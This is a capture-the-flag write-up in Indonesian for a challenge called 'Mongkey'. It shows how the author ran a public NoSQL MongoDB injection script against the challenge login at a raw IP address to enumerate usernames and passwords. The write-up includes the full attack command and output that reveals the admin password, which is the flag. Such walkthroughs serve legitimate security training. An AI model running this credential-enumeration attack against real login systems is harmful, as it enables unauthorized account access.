 # Mongkey
## About The Challenge

<img width="364" alt="Cuplikan layar 2023-06-15 131041" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/655bc567-3513-4e6a-90d7-db1b6eeaf865">



Diberikan sebuah website 'http://103.167.136.89:10002/' dengan tampilan :

<img width="959" alt="Cuplikan layar 2023-06-15 131119" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/6a5119ce-eb4f-4e56-9bed-6c34f3441682">

# How to Solve

Dalam challenge kita diharuskan login sebagai admin untuk mendapat flagnya.
Setelah mendapati hint berikutnya yaitu menggunakan tool MongoDB,
saya langsung mencarinya di github[sini](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)


Tekanlah code untuk membuka terminal lalu memasukkan perintah, untuk mencari username dan password yang terdapat didalam website gunakanlah perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -ep password -op login:login
```
<img width="695" alt="Cuplikan layar 2023-06-15 233426" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/65c04bd1-d59b-43c5-b85a-05c4411a2a06">

setelah tool selesai melakukan tugasnya maka kita akan mendapatkan hasilnya
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
<img width="688" alt="Cuplikan layar 2023-06-15 233408" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/7165f1d3-2282-4802-90ca-2dbdc81086cf">


Ternyata password untuk user admin adalah flag.

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
